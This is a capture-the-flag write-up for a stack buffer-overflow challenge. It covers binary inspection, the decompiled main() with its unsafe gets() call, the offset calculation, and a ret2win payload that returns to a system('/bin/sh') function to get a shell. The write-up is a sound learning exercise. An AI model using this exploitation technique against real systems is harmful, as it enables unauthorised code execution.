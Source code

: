 # PWN

## 👻 BOF (solved)

-   Score: 100, Solves: 189

### Problem

[bof](bof/bof)

### Solution

1.  `file bof`

    ```shell
    ➜ file bof
    bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=378b751f1056b9026ef636c05439f4550feb8154, stripped
    ```

2.  `checksec` ➜ **disabled CANARY**

    ![bof-checksec](../img/bof-checksec.png)

3.  `ida pro` -> `fn + F5` main

    ```c
    __int64 __fastcall main(__int64 a1, char **a2, char **a3)
    {
      char v4; // [rsp+0h] [rbp-30h]
    
      sub_40069A(a1, a2, a3);
      puts(&s);
      gets(&v4);
      return 0LL;
    }
    ```

    $ \because $ `gets`

    $ \therefore $ buffer overflow

4.  distance to `old rbp = 0x30` (not exactly the length of char buffer)

     $ \therefore $  `payload = nonsense * 0x30 + (8 bytes to overwrite rbp) + (target return address)`

    | ![](../img/bof-main.png) | ![](../img/bof-main2.png) |
    | -------- | -------- |

5.  find `target return address`

    Target: `system("\bin\sh")`

    ![bof-system](../img/bof-system.png)

    `return to 0x400687` $\because$ function sub_400687 call `system("\bin\sh")`

    $ \therefore $  `payload = ‘A’ * (0x30 + 8) + 0x400687`

6.  use `gdb` to test the payload

    ![bof-gdb](../img/bof-gdb.png)

    Crack because the `rsp` value was not 16 byte padded (hex representation didn’t end with `0`)

    $\therefore$  `payload = ‘A’ * (0x30 + 8) + ret + 0x400687`

7.  Get shell.

    ➜ find flag

    ![bof-final](../img/bof-final.png)

